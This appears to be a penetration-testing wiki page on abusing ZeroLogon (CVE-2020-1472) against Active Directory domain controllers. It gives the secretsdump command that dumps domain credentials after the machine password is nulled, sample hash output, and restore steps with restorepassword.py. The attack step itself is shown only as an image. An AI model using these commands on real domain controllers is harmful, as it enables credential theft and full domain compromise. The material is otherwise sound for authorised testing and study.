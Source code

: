 ```yaml
---
description: CVE-2020-1472
---
```


# 🧙‍♀️ Abusing ZeroLogon

<figure><img src="../../.gitbook/assets/image (1041).png" alt=""><figcaption></figcaption></figure>

Github: [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Zerologon is a vulnerability in the cryptography of Microsoft’s Netlogon process that allows an attack against Microsoft Active Directory domain controllers. Zerologon makes it possible for a hacker to impersonate any computer, including the root domain controller.

{% embed url="https://www.trendmicro.com/en_us/what-is/zerologon.html" %}

#### Methodology:

I took the pictures on this GitHub:

{% embed url="https://0xss0rz.github.io/2021-05-31-ZeroLogon/" %}

Since Zerologon is a very dangerous exploit that can cause damage to a DC, it's best to just run the check script and notify your client:

<figure><img src="../../.gitbook/assets/image (1042).png" alt=""><figcaption></figcaption></figure>

But if we ever need to try this attack, here are the steps →

If the target is vulnerable, we just need to throw in the following command:

<figure><img src="../../.gitbook/assets/image (1043).png" alt=""><figcaption></figcaption></figure>

This will lead to putting the passwords to null, thus enabling us to be able to dump anything on the DC:

```
secretsdump.py -just-dc -no-pass DC01\$@10.10.181.126
```

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
[...]
```

Then we could technically do anything we want on the DC like getting a shell:

<figure><img src="../../.gitbook/assets/image (1044).png" alt=""><figcaption></figcaption></figure>

{% hint style="danger" %}
We quicly need to restore the domain credentials after performing this attack
{% endhint %}

To restore the password and the overall "integrity" of the domain, these are the following steps:

```
secretsdump.py username@IP_of_DC -hashes hash_of_user
```

Now we need to look for this variable in the output, the plan\_password\_hex:

<figure><img src="../../.gitbook/assets/image (1045).png" alt=""><figcaption></figcaption></figure>

and to restore the previous state that was stable, we can run the integrated script that zerologon provides; This will first authenticate with the empty password to the same DC and then set the password back to the original one.:

```
restorepassword.py testsegment/s2016dc@s2016dc -target-ip 192.168.222.113 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3...etc
```
